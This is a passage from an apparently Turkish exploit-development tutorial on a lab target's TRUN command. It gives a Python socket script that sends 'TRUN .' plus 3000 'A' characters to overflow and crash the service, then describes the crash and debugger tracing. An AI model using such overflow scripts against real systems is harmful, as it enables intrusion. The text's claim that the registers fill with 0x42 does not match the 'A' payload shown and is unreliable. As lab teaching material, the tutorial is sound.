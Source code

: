     # Soket parametreleri
    host = "192.168.177.131"
    port = 9999
    buf = 1024
    adres = (host,port)

    # Soket oluşturuluyor ve bağlantı kuruluyor
    Baglanti = socket(AF_INET,SOCK_STREAM)
    Baglanti.connect(adres)

    # Gönderilecek Mesaj
    mesaj = "TRUN ."
    mesaj += "A" * 3000

    # Mesajın gönderilmesi
    Baglanti.send(mesaj)

    #Cevap ?
    gelencevap=Baglanti.recv(buf)
    print gelencevap

    # Soketin Kapatılması
    Baglanti.close()

Burada programın *TRUN* komutuna *3000* tane *A* harfi gönderdik, ardından programdan gelen cevabı alıp ekrana yazdık. Şimdi python ile bu scripti çalıştırıp sanal makinedaki durumu görelim.

![](/files/exceptionmeydanda.png)

Gördüğünüz gibi bir istisna meydana gelmiş durumda. Yazmaçların durumunu da görelim.

![](/files/neolmusbunaboyle.png)

Gördüğünüz gibi **EIP** ve **EBP** hex *42* ile dolmuş durumda. Zafiyeti doğrulamak amacıyla program içerinde *TRUN* komutunun işlediği kısma bir breakpoint koyup, açığı tetikleyen scripti çalıştırıyoruz. Bu defa program çökmeden önce bp'de duruyor. Bu kısma geldiğimizde *CTRL + F11* yaparak (Trace İnto) çökme meydana geldiğinde olup biteni izliyoruz, ardından *View* menüsünden *Run Trace* ile çökme sırasında çağırılan makine kodlarını görüyoruz.
